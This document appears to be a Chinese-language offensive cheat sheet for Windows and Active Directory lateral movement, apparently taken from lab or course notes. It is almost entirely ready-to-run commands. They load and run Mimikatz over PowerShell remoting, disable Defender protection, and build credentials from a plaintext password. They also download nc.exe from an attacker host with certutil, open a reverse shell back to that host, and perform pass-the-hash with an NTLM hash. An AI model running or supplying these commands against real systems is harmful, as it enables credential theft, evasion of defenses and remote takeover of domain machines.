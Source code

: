 在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```


## 以某个用户的身份登录到某台电脑（需要明文密码）
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

## 下面方法适用于得到了用户明文密码,但不是在RDP环境中（比如反弹shell中），使用这个用户身份执行命令

处理密码
```
$pw = ConvertTo-SecureString "96dQ(8i498g32N" -AsPlainText -Force
```
处理用户凭据
```
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```
测试执行whoami命令
```
Invoke-Command -Computer hutchdc -ScriptBlock {whoami} -Credential $creds
```

如：
```
PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
hutch\administrator
```
表明用户身份是```hutch\administrator```

把nc.exe传到靶机
```
certutil -urlcache -split -f "http://192.168.54.200/nc.exe" nc.exe
```
用nc反弹一个shell回来
```
Invoke-Command -Computer hutchdc -ScriptBlock {C:\windows\temp\nc.exe 192.168.54.200 593 -e cmd.exe} -Credential $creds
```

## pth
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```
